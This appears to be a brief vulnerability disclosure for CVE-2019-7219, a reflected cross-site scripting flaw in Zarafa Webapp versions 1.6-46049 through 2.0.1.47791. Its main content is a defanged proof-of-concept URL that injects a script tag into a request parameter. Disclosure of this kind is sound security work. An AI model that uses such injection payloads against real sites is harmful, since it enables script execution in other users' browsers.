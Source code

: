 # CVE-2019-7219
CVE-2019-7219  Zarafa Webapp

Author: verifysecurity

At least Webapp version 1.6-46049 till 2.0.1.47791 are affected.

<code>hxxps://127.0.0.1/webapp/?fccc0"><script>alert(1)</script>5f43d=1</code>
